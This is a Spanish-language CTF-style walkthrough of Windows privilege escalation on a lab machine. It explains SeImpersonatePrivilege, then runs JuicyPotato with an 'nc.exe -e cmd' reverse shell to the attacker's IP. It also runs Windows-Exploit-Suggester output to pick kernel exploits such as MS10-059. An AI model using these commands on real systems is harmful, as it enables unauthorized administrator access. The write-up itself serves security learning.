 ![](https://lh4.googleusercontent.com/0EDC5kZisdUybZO9oDsJjrvVvpEcoC1VB3HKif4pcp5FGdpAJVJoVvOxi3PUaugx52Z_Z6zlLVUNXwDbMKTCUFo9f2nLXC1tvcPtrPJYgZV5JgmIjlB0J_tfBLhggahyydsYWBKp)

Vemos que tenemos el privilegio de `SeImpersonatePrivilege`.


**SeImpersonatePrivilege:** Es una configuración de seguridad de Windows que permite  "Suplantar a un cliente tras la autenticación". Esto significa que cuando a un usuario se le permite este privilegio todos los programas y procesos que corran bajo un cliente pueda ser suplantado por el usuario que tenga este permiso.

Lo que significa que nosotros podemos aprovecharnos de esto para escalar al usuario administrador.

Para ello nos descargaremos el siguiente exploit: [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe).

Después nos montamos un servidor con samba que comparta el `JuicyPotato.exe` y `nc.exe`. 

![](https://lh5.googleusercontent.com/NZo1WY7DvN04EEMc4Cd4wgrb0XvfGwDcImsnhlZLqsCvYPKa3kkSD377u5__gDxm94bmljgRNV2Hl00eH4EN8E_uF-xU_gLg9g9PwHbiOBWS-wtwbqrsQXlp1Ad8ZBhASOVz8znu)

Dejo mi netcat a la escucha de cualquier conexión entrante y descargo los dos archivos en una ruta que tengamos permisos de escritura, en este caso en el escritorio del usuario merlín.

Una vez descargados los archivos ejecutamos el exploit.
```console
c:\Users\merlin\Desktop>JuicyPotato.exe -l 1337 -p C:\Windows\System32\cmd.exe -a " /C c:\Users\merlin\Desktop\nc.exe -e cmd 10.10.14.28 1234" -t *
```

![](https://lh4.googleusercontent.com/4YnR26VnzZ7p2kevj_ISyOZaU7RaAKay5cuF2yZ4UCuHdqJi2Z6vHsKFCjfqQDBIyCq8lFCLxldTb5pQqp3df5t5aQhBmEN86fNyVRWNMVAooEAdcPa6-snbCkjEr2URG3vi7HEo)


# Escalación de privilegios con Chimichurri.exe (MS10-059)

Si revisamos la información del sistema operativo podemos observar de que nos encontramos nuevamente con un sistema operativo muy antiguo, por lo que es muy probable de que este asociado a alguna vulnerabilidad critica.

![](https://lh3.googleusercontent.com/XpQWW3OjSGDcnMvWmGu8_Bjx_EHPoLF4xucy-h4p4Vn0ZEt8ep_86Jul58-4ihKJYtX7ZgOlfVN1ElJWPcX8wAtAJk7FMs73lJKuYHJHgX99FVWS1rud5qfL3SDL-LEsaEDMdLUI)

Nuevamente haré uso de la herramienta [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) para encontrar algún exploit critico en esta máquina.

Paso la salida del comando `systeminfo` a mi máquina y ejecuto la herramienta.

```
./windows-exploit-suggester.py --database 2020-08-25-mssb.xls --systeminfo sysinfo.txt
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
```